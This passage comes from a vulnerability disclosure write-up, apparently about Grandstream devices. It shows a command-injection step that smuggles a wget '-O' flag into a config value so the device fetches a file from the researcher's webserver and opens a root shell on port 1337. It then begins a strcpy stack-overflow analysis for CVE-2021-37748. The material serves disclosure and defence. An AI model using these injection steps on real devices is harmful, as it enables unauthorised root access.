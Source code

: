 The next step is to set the variable to point to our webserver and reboot the device. The injected wget flag will force-save our file.

```
CONFIG> set gs_test_server 192.168.1.198/xxx -O /tmp/config/rc.conf 
CONFIG> commit
CONFIG> reboot


```

After reboot, the root shell is available on port 1337:

```
$ telnet 192.168.1.128 1337
Trying 192.168.1.128...
Connected to 192.168.1.128.
Escape character is '^]'.
# busybox id
uid=0(root) gid=0(root)
#


```

CVE-2021-37748
--------------

A stack-based overflow affecting the handling of the "manage_if" config parameter allows an authenticated attacker to break out of the limited configuration interface and get a root shell on the device.

### Analysis

We started with the static analysis of the gs_config binary, which implements the limited configuration shell. It provides an authenticated user with a quick text-based interface available over SSH (and optionally Telnet). For fun, we will communicate with the device over Telnet.

When it comes to the IOT world, the probability of finding old-school bugs is always an option. We hunted for the obvious candidates, such as strcpy() - and indeed, we identified multiple instances. The most promising one turned out to be at 0xB3A4:

![](https://www.secforce.com/media/images/grandstream-strcpy.width-800.png)

When a user types the "status" command from the initial menu - among other things a value for the "Management Interface" called "manage_if" is retrieved from nvram via the "nvram_get" function and is placed into a local buffer via strcpy(). The interface value is later used for resolving and displaying the "Management IPv4 Address". By placing a large string via the "set manage_if VALUE" command and executing a "status" command we can overflow the stack buffer and overwrite important values on the stack, i.e. the saved return address of the local function, thereby taking control of the execution flow.

### Control over PC

The pointer to the buffer returned by "nvram_get" at 0xB394 (value of the "manage_if" setting pulled from the nvram) will be stored in the R0 register. Then, the address from R0 is being copied into the R1 register - this is the second argument for strcpy() - our controlled data (src). The R0 register is then being set to a local buffer stored on the stack (dest):
